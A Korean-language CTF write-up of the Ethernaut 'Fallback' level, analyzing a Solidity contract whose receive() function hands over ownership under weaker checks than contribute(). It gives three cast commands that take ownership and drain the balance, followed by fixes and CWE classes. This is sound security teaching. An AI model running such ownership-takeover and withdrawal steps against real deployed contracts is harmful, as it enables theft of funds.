

# [Ethernaut] 01-fallback

## 취약점 요약
- 이번 문제의 취약점은 **owner 권한 변경** 기능을 contribute()와 receive() 각각 두 함수에  
중복 구현되어 있음과 동시에 검증 수준을 상이하게 만든 것입니다.  
이와 같은 취약점으로 인해 검증이 느슨한 receive() 함수를 호출해서 owner 권한을 얻을 수 있고  
컨트랙트 잔액을 모두 탈취할 수 있게 됩니다!  

## 사전 지식
1. **receive()**:
- 트랜잭션을 보낼 때 calldata의 값이 비어 있는 경우 자동으로 호출 됩니다.  

2. **fallback()**:
- 트랜잭션을 보낼 떄 calldata에 값이 들어있지만  
컨트랙트 전체에 있는 함수와 calldata의 시그니처 바이트가 매칭되지 않으면 자동으로 호출 됩니다.  
또한 calldata의 값이 비어있고 컨트랙트에 receive() 함수가 없는 경우에도 fallback() 함수가 호출 됩니다.

*calldata 구조 참고*

## 취약 코드
```solidity
    function contribute() public payable {
        require(msg.value < 0.001 ether);
        contributions[msg.sender] += msg.value;
        if (contributions[msg.sender] > contributions[owner]) {
            owner = msg.sender;
        }
    }
```
```solidity
receive() external payable {
    require(msg.value > 0 && contributions[msg.sender] > 0);
    owner = msg.sender;
}
```

## 원인 분석
### **owner 권한을 얻을 수 있는 두 함수의 검증 로직이 다르다!**   
- 컨트랙트에 owner 권한을 변경하는 함수가 두 개 이상 있어도 되지만,  
각 함수의 검증 로직이 다르면 그 중 가장 취약한 검증을 가지고 있는 함수가  
공격 지점이 될 수 있습니다.  

 - 해당 문제에서 마찬가지로 contribute()는 owner 변경 조건까지 도달하기 까다롭지만,  
 receive() 함수는 똑같은 owner 변경을 훨신 단순한 조건으로 실행 시킬 수 있습니다.  

## 익스플로잇 로직
```bash
cast send <인스턴스 주소> "contribute()" --value 0.0001ether --rpc-url <RPC_URL> --account <지갑 계정>
cast send <인스턴스 주소> --value 0.0001ether --rpc-url <RPC_URL> --account <지갑 계정>
cast send <인스턴스 주소> "withdraw()" --rpc-url <RPC_URL> --account <지갑 계정>
```
**flag!**


## 수정 방안
```solidity
    // receive()에서 소유권 변경 로직 제거
receive() external payable {
    require(msg.value > 0 && contributions[msg.sender] > 0);
    contributions[msg.sender] += msg.value;
}
```
```solidity
    // contribute()와 동일한 검증을 적용
receive() external payable {
    require(msg.value > 0 && contributions[msg.sender] > 0);
    if (contributions[msg.sender] > contributions[owner]) {
        owner = msg.sender;
    }
}
```

## CWE 분류
- CWE-284(Improper Access Control)
- CWE-841(Improper Enforcement of Behavioral Workflow)

